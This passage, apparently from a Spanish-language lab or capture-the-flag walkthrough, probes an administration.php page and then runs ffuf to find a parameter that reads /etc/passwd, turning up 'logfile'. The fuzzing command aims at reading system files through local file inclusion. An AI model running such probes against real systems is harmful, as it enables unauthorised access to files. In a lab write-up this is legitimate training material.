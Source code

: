 Vemos varias cosas interesantes, vamos a probar a entrar en el archivo llamado `administration.php` a ver que vemos.

```
URL = http://<IP>:8080/administration.php
```

Info:

```
You are not allowed to view :  
Your activity has been logged
```

Vemos que parece que tenemos que estar `logueados` vamos a ver el otro archivo.

```
URL = http://<IP>:8080/administration.php
```

Info:

```
[]
```

Tampoco vemos nada interesante, vamos a volver al archivo `administration.php` y probaremos a realizar `fuzzing` en busca de algun parametro de `PHP` que pueda ser vulnerable.

## FFUF

```shell
ffuf -u http://<IP>:8080/administration.php\?FUZZ\=/etc/passwd -w <WORDLIST> -fs 65
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.21:8080/administration.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 65
________________________________________________
logfile                 [Status: 200, Size: 76, Words: 12, Lines: 3, Duration: 1214ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
